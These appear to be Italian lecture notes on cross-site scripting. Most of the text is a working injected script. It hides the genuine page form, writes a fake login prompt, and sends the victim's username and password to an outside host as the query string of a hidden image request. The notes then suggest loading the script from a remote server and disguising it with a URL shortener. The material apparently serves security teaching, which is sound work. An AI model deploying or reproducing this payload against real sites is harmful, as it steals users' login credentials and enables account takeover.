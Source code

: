 invece di fare document.write() per sostituire la pagina


<script>
function hack(){
  stringa="?username="+ document.forms[1].user.value + "&password=" + document.forms[1].pass.value + ""; 
  evilurl="http://cris.unimo.it/fakeimage.img"+ stringa + ""; 
  var evilimg=document.createElement('img');
  evilimg.setAttribute("src", evilurl);
  evilimg.setAttribute("display","none");
  document.body.appendChild(evilimg); 
  document.getElementsByName("XSS")[0].style.visibility="visible"; 
  injectedform=document.getElementById("injectedform"); //injected form è fil form, questa funzione viene chiamata quando si clicca su submit
  injectedform.style.visibility="hidden";
} 

document.getElementsByName("XSS")[0].style.visibility="hidden"; //QUESTA VIENE ESEGUITA PRIMAAAA DELLA FUNZIONE
/*qua si sta scrivendo il form tramite "document.write() quindi dobbiamo in realtà quotare le tramite \ le virgolette"*/
document.write("<form id=\"injectedform\"><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type=\"text\" id=\"user\" name=\"user\"><br>Enter Password:<br><input type=\"password\" name = \"pass\"><br><input type=\"button\" name=\"login\" value=\"login\" onclick=\"hack()\"></form><br><br><HR>")</script>








- ottimizzazioni: carico lo script da un file esterno







<script src="http://cris.unimore.it/xscdpoi.js"></script>







- ottimizzazioni: uso un URL shortener







<script src="http://goo.gl/89fKC5"></script>







- ottimizzazioni: confido nella capacità del browser di interpretare quello che scrivo


